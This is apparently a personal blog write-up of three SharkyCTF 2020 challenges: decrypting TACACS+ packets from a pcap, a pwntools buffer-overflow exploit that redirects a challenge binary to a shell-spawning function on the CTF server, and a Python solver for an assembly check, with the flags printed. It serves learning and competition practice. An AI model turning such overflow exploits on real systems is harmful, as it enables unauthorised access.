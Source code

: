 +++
title = "Sharky 2020 CTF writeup"
date = 2020-05-10
description = "CTF writeup"
in_search_index = true
draft = true

[taxonomies]
categories = ["Capture The Flag"]
tags = ["ctf","writeup"]
authors = ["Thanga Ayyanar"]
+++

SharkyCTF writeup

## Networking - RattataTACACS

* Challenge contains pcap file which contains tacacs+ encrypted packet which we need to decrypt to get the flag.
* The udp packets followed by tacacs contains the authentication details of user logged on to the cisco router.

<!-- more -->

{{ resize_image(path="SharkyCTF-2020/udpStreamFlowChase.png",class="imgmed") }}

* Authentication details are encrypted so i decrypted the type 7 password using the webite to obtain the **Decryption key**

{{ resize_image(path="SharkyCTF-2020/ImageDecryption.png",class="imgmed") }}

* Applying the decryption key for tacacs to wireshark to decrypt the packet (Perference -> Protocols -> Tacacs+).

{{ resize_image(path="SharkyCTF-2020/tacacsDecryption.png",class="imgmed") }}

* checking the encrypted packet we can get the flag

```
shkCTF{T4c4c5_ch4ll3n63_br0}
```

## Pwn - Give away 0

* Challenge contains a ELF 64 bit binary.
* statically analyzing binary help me to find it has **win** which executes /bin/sh (shell) so all we need to do is redirect the code to win function.
* Binary contains Buffer overflow vulnerability in vuln function so we are going to overflow the buffer and points the *instruction pointer* to win function.
* shell code written using *pwntools*.

```py3

from pwn import *
vuln=ELF('./0_give_away')

conn=remote('sharkyctf.xyz',20333)
conn.sendline(("A"*40).encode()+p64(vuln.symbols['win_func']))
conn.interactive()

```
* Run the code and **cat flag.txt** in the server.
```
shkCTF{#Fr33_fL4g!!_<3}
```

**Note**: When you are writting shell code in python3 remember to convert the string to bytes inorder to combine JUNK + ADDR

## Reverse - Simple

* Challenge contains asm file.
```asm
BITS 64

SECTION .rodata
	some_array db 10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24
	the_second_array db 0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf
	len_second_array equ $ - the_second_array
SECTION .text
    GLOBAL main

main:
	mov rdx, [rsp]
	cmp rdx, 2 # two arguments
	jne exit
	mov rsi, [rsp+0x10] # get the first argument
	mov rdx, rsi
	mov rcx, 0
l1:
	cmp byte [rdx], 0 # Strlen function, the length is stored in rcx 
	je follow_the_label
	inc rcx
	inc rdx
	jmp l1
follow_the_label: # Array are compard from last to first
	mov al, byte [rsi+rcx-1] # rsi contains the input value
	mov rdi,  some_array 
	mov rdi, [rdi+rcx-1] # get the particular value of some_array to rdi
	add al, dil  # dil -> lower 8 bit of rdi, add it the al register
	xor rax, 42
	mov r10, the_second_array
	add r10, rcx
	dec r10
	cmp al, byte [r10]
	jne exit
	dec rcx
	cmp rcx, 0
	jne follow_the_label
win:#Return 0 function
	mov rdi, 1
	mov rax, 60
	syscall
exit:
	mov rdi, 0
	mov rax, 60
	syscall

```
* we need to find the input so that this program will return 1.
* The above program gets input string and compare it with the second_array.
* Before comparing, the value in input are added with some array and XORed with 42(0x2a in hex).
* I have written python program to do the above thing in reverse to obtain the input which is the flag.
* Included all the reference material that i used to solve the challenge are linked below in Resources section.

* Solution
```py3
sub_array=[10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24]
encode_array=[0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf]

for i in range(len(sub_array)):
    xored_value = encode_array[i] ^ 0x2a
    final_value = xored_value - sub_array[i]
    print(chr(final_value),end='')
```
* Flag obtained
```
shkCTF{h3ll0_fr0m_ASM_my_fr13nd}
```

## Resources:

### Reference for tacacs

* (How to decrypt tacacs using wireshark)[https://www.youtube.com/watch?v=eaasnPU9IaA]

### Materials used for reversing simple 

1)https://stackoverflow.com/questions/1753602/what-are-the-names-of-the-new-x86-64-processors-registers

```
64-bit register | Lower 32 bits | Lower 16 bits | Lower 8 bits
==============================================================
rax             | eax           | ax            | al
rbx             | ebx           | bx            | bl
rcx             | ecx           | cx            | cl
rdx             | edx           | dx            | dl
rsi             | esi           | si            | sil
rdi             | edi           | di            | dil
rbp             | ebp           | bp            | bpl
rsp             | esp           | sp            | spl
r8              | r8d           | r8w           | r8b
r9              | r9d           | r9w           | r9b
r10             | r10d          | r10w          | r10b
r11             | r11d          | r11w          | r11b
r12             | r12d          | r12w          | r12b
r13             | r13d          | r13w          | r13b
r14             | r14d          | r14w          | r14b
r15             | r15d          | r15w          | r15b
```

2)https://stackoverflow.com/questions/30528091/whats-the-asm-equivalent-of-replacing-a-char-from-a-string-to-a-char-of-another

```
section .text
    global _ft_strcat

_ft_strcat:
    mov rax, rdi
    mov rbx, rsi

loop_s1:
    cmp byte[rax], 0
    jz copy_str
    inc rax
    jmp loop_s1

copy_str:                   #( Helped me to solve simple )
    cmp byte[rbx], 0
    jz end
    mov byte[rax], byte[rbx]
    inc rax
    inc rbx
    jmp copy_str

end:
    mov byte[rax], 0
    ret
```

### Materials used for shellcoding

* [Possible way to send string to stack x86](https://illegalbytes.com/2018-02-25/two-ways-to-pass-data-to-your-shellcode/)
* [String Encoding in Python for shellcoding](https://gist.github.com/offlinemark/5be8375ba28d5b7dd2d0)
* [x86 cheatsheet](https://www.bencode.net/blob/nasmcheatsheet.pdf)
* [Intel reference](https://software.intel.com/content/www/us/en/develop/articles/introduction-to-x64-assembly.html)
